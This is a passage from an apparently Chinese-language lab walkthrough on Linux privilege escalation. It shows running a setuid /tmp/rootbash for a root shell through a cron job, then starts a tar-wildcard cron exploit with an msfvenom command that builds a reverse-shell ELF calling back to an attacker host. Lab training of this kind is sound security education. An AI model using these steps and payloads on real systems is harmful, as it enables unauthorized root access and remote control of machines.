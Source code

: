 等待 cron 作业运行(不应超过一分钟)。使用-p 运行/tmp/rootbash 命令，获得以 root 权限运行的 shell:

```
/tmp/rootbash -p
```

在继续之前，请记住删除修改后的代码，删除/tmp/rootbash 可执行文件并退出提升的 shell，因为您稍后将在房间中再次创建该文件！

```
rm /tmp/rootbash
exit
```

![](img/4636b7c3610e5e606eaad377b3358e1d.png)

# 任务 10: Cron 作业-通配符

查看其他 cron 作业脚本的内容:

`cat /usr/local/bin/compress.sh`

请注意，tar 命令是在您的主目录中使用通配符(*)运行的。

请看一下 [tar](https://gtfobins.github.io/gtfobins/tar/) 的 GTFOBins 页面。注意，tar 有命令行选项，允许您运行其他命令作为检查点特性的一部分。

在你的 Kali box 上使用 msfvenom 生成一个反向 shell ELF 二进制。相应地更新 LHOST IP 地址:

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf`

将 shell.elf 文件传输到 Debian VM 上的 **/home/user/** (您可以使用 **scp** 或将文件托管在 Kali box 上的 web 服务器上，并使用 **wget** )。确保文件是可执行的:
